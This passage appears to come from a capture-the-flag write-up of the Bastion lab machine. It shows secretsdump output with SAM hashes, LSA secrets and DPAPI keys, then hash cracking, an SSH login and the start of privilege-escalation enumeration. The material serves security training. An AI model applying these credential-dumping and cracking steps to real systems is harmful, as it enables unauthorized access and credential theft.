     [*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:e4487d0421e6611a364a5028467e053c:::
    L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
    [*] Dumping cached domain logon information (domain/username:hash)
    [*] Dumping LSA Secrets
    [*] DefaultPassword 
    (Unknown User):bureaulampje
    [*] DPAPI_SYSTEM 
    dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
    dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
    [*] Cleaning up... 
    

I’ll also notice that `secretsdump.py` identified a default password (or
autolongon password) of “bureaulampje” for an unknown user.

### Crack Hash

Submitting the NTLM hashes to [crackstation](https://crackstation.net/)
returns the same password for the l4mpje account:

![1557434097548](https://0xdfimages.gitlab.io/img/1557434097548.png)

### SSH

Seeing ssh on a Windows box is a bit unusual, but this seems like a good
chance to use it. I can ssh in as l4mpje:

    
    
    root@kali# ssh L4mpje@10.10.10.134
    L4mpje@10.10.10.134's password:
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    l4mpje@BASTION C:\Users\L4mpje>
    

And now I can grab `user.txt`:

    
    
    l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
    9bfe57d5...
    

## Privesc to administrator

### Enumeration

In looking at the installed programs on the host, `mRemoteNG` jumps out as
interesting:

    
    
    PS C:\Program Files (x86)> dir
    